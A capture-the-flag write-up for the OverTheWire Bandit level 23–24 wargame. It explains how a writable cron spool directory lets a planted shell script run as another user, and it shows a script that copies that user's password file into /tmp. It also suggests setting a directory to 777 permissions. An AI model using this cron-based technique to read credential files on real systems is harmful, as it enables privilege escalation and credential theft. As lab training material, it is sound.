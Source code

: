 # Level 23-24


## Level Goals

> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.  

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!  

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…


## Commands you may need to solve this level
> cron, crontab, crontab(5) (use “man 5 crontab” to access this)  

## write-up

	bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 
	#!/bin/bash
	
	myname=$(whoami)
	
	cd /var/spool/$myname
	echo "Executing and deleting all scripts in /var/spool/$myname:"
	for i in * .*;
	do
	    if [ "$i" != "." -a "$i" != ".." ];
	    then
		echo "Handling $i"
		timeout -s 9 60 ./$i
		rm -f ./$i
	    fi
	done

This script is executing every file in `var/spool/bandit24` a/s a user `bandit24`.  

Let's look at this `var/spool/bandit24` directory.
	bandit23@bandit:~$ ls -la /var/spool
	total 20
	drwxr-xr-x  5 root     root     4096 Dec 28 14:34 .
	drwxr-xr-x 12 root     root     4096 Dec 28 14:34 ..
	drwx-wx--- 10 bandit24 bandit23 4096 Jun 14 23:22 bandit24
	drwxr-xr-x  5 root     root     4096 Oct 31  2017 cron
	lrwxrwxrwx  1 root     root        7 Oct 31  2017 mail -> ../mail
	drwx------  2 syslog   adm      4096 Apr  5  2016 rsyslog  

We have `write` & `execute` permissions.  
As `bandit24` can only read `/etc/bandit_pass/bandit24`, we can write a script that will read `/etc/bandit_pass/bandit24` and copy it to `var/spool/bandit24` where it will be exeuted by `bandit24`. We will redirect the output of `cat /etc/bandit_pass/bandit24` to a file `bandit23` can read.  
Here's the script:  
##### /tmp/myscript.sh
	#!/bin/bash
	cat /etc/bandit_pass/bandit24 > /tmp/bandi24pass.txt

Give it executable permissions `chmod +x /tmp/myscript.sh`  
`cp /tmp/myscript.sh /var/spool/bandit24/`  
Then wait for the file `/tmp/bandit24pass.txt` to be created.  

##### Note:
If you create a directory in `/tmp/`, then give it `777` permissions to make it writable and executbale by `bandit24`.
